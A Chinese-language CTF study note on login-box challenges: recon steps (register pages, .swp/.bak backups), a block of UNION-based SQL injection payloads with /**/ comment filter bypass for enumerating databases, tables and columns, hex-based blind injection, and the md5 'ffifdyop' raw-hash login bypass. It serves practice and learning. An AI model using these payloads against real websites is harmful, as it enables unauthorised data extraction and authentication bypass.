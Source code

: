 



## 4、登录框类型做题捕步骤

-   1、**查看是否存在注册页面，可以尝试/register.php**
-   **2、查看源代码，是否存在第二个页面5**
-   是否有报错回显
-   尝试参数传递数组绕过字符串检测
-   首先用简单的sql查看是否存在sql注入
-   然后扫描目录查看是否有备份文件
    -   备份文件可能为：`.swp`、`.bak`





## **3、sql注入一些方法**

**常用的sql注入playload案例**

```sql
/**/order/**/by/**/2
/**/union/**/select/**/1,database();#

# ----------表名---------
/**/union/**/select/**/1,group_concat(table_name)/**/from/**/information_schema.tables/**/where/**/table_schema=database();#

# ----------库名---------
/**/union/**/select/**/1,group_concat(schema_name)/**/from/**/information_schema.schemata
# ----------字段名---------
/**/union/**/select/**/1,group_concat(column_name)/**/from/**/information_schema.columns/**/where/**/table_schema='alien_code'/**/and/**/table_name='code';#
# ----------字符串截取---------
substr(flag,1,20)
mid(flag,1,15);
```





 **[网鼎杯2018]Unfinish**

==sql中相加是会先转化成数字（和php类似，弱类型）再进行相加==

==[sql中的hex是将字符串转为16进制的，同时只要进行2次hex就不会出现类型abc这类字母，可以用做盲注](https://mayi077.gitee.io/2020/08/18/%E7%BD%91%E9%BC%8E%E6%9D%AF2018-Unfinish/)==

**当无法获取表名时，可以猜测表名为：flag**

-   **mysql 中md5(string, true)，**
    -   **true：返回16位原始二进制格式的字符串**
    -   **默认false：就返回32位16进制的字符串**
    -   **绕过特例：ffifdyop **
        -    这个字符串被 md5 哈希了之后会变成 276f722736c95d99e921722cf9ed621c，
        -   这个字符串前几位刚好是`'or '6`，
        -   如：`select * from 'admin' where password=md5($pass,true）`
        -   就变成了：`select * from ‘admin’ where password=’’ or ‘6......’`
